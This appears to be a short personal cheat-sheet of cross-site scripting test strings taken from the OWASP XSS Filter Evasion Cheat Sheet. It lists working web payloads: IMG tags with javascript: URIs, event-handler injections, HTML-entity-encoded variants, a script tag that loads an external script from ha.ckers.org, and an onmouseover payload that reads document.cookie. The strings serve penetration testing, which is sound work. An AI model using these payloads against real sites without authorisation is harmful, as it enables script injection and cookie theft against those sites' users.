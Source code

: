 * OWASP XSS Links
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet


* Testing Strings

** Reflected
** Filter Evasion 
Inject String, view source, look for <XSS verses &lt;XSS to see if it is vulnerable
'';!--"<XSS>=&{()}

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

*** Image XSS Strings
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG SRC=`javascript:alert("XSS by, 'NCC'")`>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"> << MALFORMED

*** SCR Strings
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

* Encoded Strings
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
*** Malformed
<a onmouseover="alert(document.cookie)">xxs link</a>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">


